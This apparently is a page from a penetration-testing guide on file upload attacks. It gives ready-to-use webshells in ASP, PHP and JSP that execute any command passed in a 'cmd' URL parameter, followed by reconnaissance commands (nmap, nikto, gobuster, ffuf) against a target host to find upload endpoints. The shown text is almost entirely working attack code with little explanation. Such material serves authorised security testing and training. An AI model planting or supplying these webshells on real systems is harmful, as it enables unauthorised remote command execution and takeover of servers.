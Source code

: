 ### Webshell Examples and Payloads

#### ASP Webshells (IIS Servers)
```asp
<%@ Language="VBScript" %>
<%
If Request.QueryString("cmd") <> "" Then
    Set objShell = Server.CreateObject("WScript.Shell")
    Set objExec = objShell.Exec(Request.QueryString("cmd"))
    Response.Write "<pre>" & objExec.StdOut.ReadAll & "</pre>"
End If
%>
```

#### PHP Webshells (Apache/Nginx)
```php
<?php
if(isset($_GET['cmd'])) {
    echo "<pre>";
    $output = shell_exec($_GET['cmd']);
    echo htmlspecialchars($output, ENT_QUOTES, 'UTF-8');
    echo "</pre>";
}
?>
```

#### JSP Webshells (Tomcat)
```jsp
<%@ page import="java.io.*" %>
<%
String cmd = request.getParameter("cmd");
if (cmd != null) {
    Process p = Runtime.getRuntime().exec(cmd);
    BufferedReader reader = new BufferedReader(new InputStreamReader(p.getInputStream()));
    String line;
    while ((line = reader.readLine()) != null) {
        out.println(line + "<br>");
    }
}
%>
```

---

## 📋 Complete Testing Methodology

### Phase 1: Information Gathering
```bash
# Discover file upload functionality
nmap --script http-enum -p 80,443,8080 target.com
nikto -h http://target.com
gobuster dir -u http://target.com -w /usr/share/wordlists/dirb/common.txt

# Look for upload endpoints
grep -r "upload" /path/to/wordlists/
ffuf -w wordlist.txt -u http://target.com/FUZZ -fs 404
```

